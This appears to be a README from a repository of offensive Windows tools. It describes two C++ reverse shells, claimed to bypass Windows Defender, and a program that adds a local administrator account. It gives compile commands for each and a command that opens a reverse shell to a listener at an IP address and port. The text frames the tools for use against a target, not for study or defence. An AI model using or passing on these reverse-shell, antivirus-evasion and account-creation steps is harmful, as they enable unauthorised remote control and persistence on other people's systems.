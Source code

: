 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The IP and PORT need to be specified statically in the file before compilation*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `.\rev.exe`

## revshell2.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.

*Note: The executable takes IP and PORT as arguments*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`

## newadmin.c
Will create new local admin.

- 32bit Compilation: `i686-w64-mingw32-gcc -oadduser32.exe adduser.c -lnetapi32`
- 64bit Compilation: `x86_64-w64-mingw32-gcc -oadduser64.exe adduser.c -lnetapi32`
